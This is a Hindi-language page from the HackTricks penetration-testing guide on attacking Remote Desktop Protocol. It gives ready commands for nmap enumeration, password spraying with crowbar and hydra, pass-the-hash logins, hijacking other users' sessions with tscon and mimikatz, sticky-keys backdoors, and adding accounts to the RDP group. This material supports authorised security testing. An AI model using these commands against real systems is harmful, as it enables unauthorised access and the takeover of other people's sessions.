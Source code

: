 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें**

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यावसायिक प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## मूल जानकारी

Microsoft द्वारा विकसित, **रिमोट डेस्कटॉप प्रोटोकॉल** (**RDP**) को नेटवर्क के माध्यम से कंप्यूटरों के बीच ग्राफिकल इंटरफेस कनेक्शन सक्षम करने के लिए डिज़ाइन किया गया है। ऐसे कनेक्शन को स्थापित करने के लिए, उपयोगकर्ता द्वारा **RDP** क्लाइंट सॉफ़्टवेयर का उपयोग किया जाता है, और साथ ही, दूरस्थ कंप्यूटर को **RDP** सर्वर सॉफ़्टवेयर चलाने की आवश्यकता होती है। यह सेटअप दूरस्थ कंप्यूटर के डेस्कटॉप वातावरण के निर्बाध नियंत्रण और पहुंच की अनुमति देता है, मूल रूप से इसके इंटरफेस को उपयोगकर्ता के स्थानीय डिवाइस पर लाता है।

**डिफ़ॉल्ट पोर्ट:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeration

### Automatic

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

यह उपलब्ध एन्क्रिप्शन और DoS कमजोरियों की जांच करता है (सेवा को DoS का कारण बने बिना) और NTLM Windows जानकारी (संस्करण) प्राप्त करता है।

### [Brute force](../generic-hacking/brute-force.md#rdp)

**सावधान रहें, आप खातों को लॉक कर सकते हैं**

### **Password Spraying**

**सावधान रहें, आप खातों को लॉक कर सकते हैं**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### ज्ञात क्रेडेंशियल्स/हैश के साथ कनेक्ट करें
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP सेवाओं के खिलाफ ज्ञात क्रेडेंशियल्स की जांच करें

impacket से rdp\_check.py आपको यह जांचने की अनुमति देता है कि क्या कुछ क्रेडेंशियल्स RDP सेवा के लिए मान्य हैं:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="../.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें**

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यावसायिक प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **हमले**

### सत्र चोरी

**SYSTEM अनुमतियों** के साथ आप किसी भी **उपयोगकर्ता द्वारा खोले गए RDP सत्र** तक पहुंच सकते हैं बिना मालिक के पासवर्ड को जाने।

**खुले सत्र प्राप्त करें:**
```
query user
```
**चुने गए सत्र तक पहुँच**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
अब आप चयनित RDP सत्र के अंदर होंगे और आपको केवल Windows उपकरणों और सुविधाओं का उपयोग करके एक उपयोगकर्ता का अनुकरण करना होगा।

**महत्वपूर्ण**: जब आप एक सक्रिय RDP सत्र तक पहुँचते हैं, तो आप उस उपयोगकर्ता को बाहर कर देंगे जो इसका उपयोग कर रहा था।

आप प्रक्रिया को डंप करके पासवर्ड प्राप्त कर सकते हैं, लेकिन यह विधि बहुत तेज़ है और आपको उपयोगकर्ता के वर्चुअल डेस्कटॉप के साथ बातचीत करने की अनुमति देती है (पासवर्ड नोटपैड में बिना डिस्क पर सेव किए, अन्य मशीनों में खोले गए अन्य RDP सत्र...)

#### **Mimikatz**

आप इसे करने के लिए mimikatz का भी उपयोग कर सकते हैं:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

इस तकनीक को **stickykeys** या **utilman** के साथ मिलाकर, आप किसी भी समय एक प्रशासनिक CMD और किसी भी RDP सत्र तक पहुँच सकते हैं।

आप पहले से ही इन तकनीकों में से एक के साथ बैकडोर किए गए RDPs को खोज सकते हैं: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

यदि किसी अन्य डोमेन से या **बेहतर विशेषाधिकार** के साथ कोई RDP के माध्यम से उस PC में लॉगिन करता है जहाँ **आप एक Admin** हैं, तो आप उसके **RDP सत्र प्रक्रिया** में अपना बीकन **inject** कर सकते हैं और उसके रूप में कार्य कर सकते हैं:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** एक पोस्ट-एक्सप्लॉइटेशन फ्रेमवर्क है जो पॉवरशेल में बनाया गया है, जिसे मुख्य रूप से Microsoft Windows कंप्यूटर पर **Shadow** हमले को स्वचालित करने के लिए डिज़ाइन किया गया है। यह भेद्यता (जिसे Microsoft द्वारा एक विशेषता के रूप में सूचीबद्ध किया गया है) एक दूरस्थ हमलावर को **बिना उसकी सहमति के अपने शिकार के डेस्कटॉप को देखने** की अनुमति देती है, और यहां तक कि इसे मांग पर नियंत्रित करने की भी, ऑपरेटिंग सिस्टम के अपने मूल उपकरणों का उपयोग करके।

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* कमांड लाइन से स्वचालित तरीके से माउस और कीबोर्ड को नियंत्रित करें
* कमांड लाइन से स्वचालित तरीके से क्लिपबोर्ड को नियंत्रित करें
* क्लाइंट से एक SOCKS प्रॉक्सी उत्पन्न करें जो RDP के माध्यम से लक्षित नेटवर्क संचार को चैनल करता है
* लक्षित पर फ़ाइलें अपलोड किए बिना मनचाहे SHELL और PowerShell कमांड निष्पादित करें
* लक्षित पर फ़ाइल स्थानांतरण बंद होने पर भी लक्षित से फ़ाइलें अपलोड और डाउनलोड करें

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="../.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें**

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यावसायिक प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
